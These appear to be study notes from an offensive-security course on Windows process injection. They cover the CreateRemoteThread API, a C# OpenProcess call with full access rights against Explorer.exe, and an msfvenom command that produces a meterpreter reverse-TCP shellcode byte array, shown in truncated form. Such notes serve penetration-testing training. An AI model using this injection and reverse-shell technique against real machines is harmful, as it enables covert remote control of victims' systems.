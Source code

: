 ### CreateRemoteThread

```c
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```
- Similarly, since _CreateThread_ does not support the creation of remote process threads, we must rely on the _CreateRemoteThread_ API instead.


# Process Injection in C\#

Note: Installed https://github.com/microsoft/CsWin32 into Win10 Visual Studio and System.Memory nuget packages

Errata/Update: 
- `dwDesiredAccess` has a 32 bit un-signed interger value and it establishes the access rights, there are hex values we can use for the access , the acess which we can use for all rights on a process is `PROCESS_ALL_ACCESS` which can be represented in hex `0x001FFFFF` 
- offsec guide uses `0x001F0FFF` which is for XP/2k3
- PROCCESS_ALL_ACCESS hex values (https://gist.githubusercontent.com/Rhomboid/0cf96d7c82991af44fda/raw/46b93265561362eb9d631b90a7731dc985ee378d/process_access_rights.txt)
- Note: PID 4804 below is for Explorer.exe will change each time Windows is run and the hex value for dwDesiredAccess is for win xp or 2k3
```csharp
IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
```
- For P/Invoke purposes, you should use `IntPtr.Zero` in place of `NULL`. Note that this is not equivalent to the C# `null`
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$(hostname -I | cut -d' ' -f1) LPORT=9001 EXITFUNC=thread -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 511 bytes
Final size of csharp file: 2628 bytes
byte[] buf = new byte[511] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
...
0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff,
0xd5};

```

### Exercises 
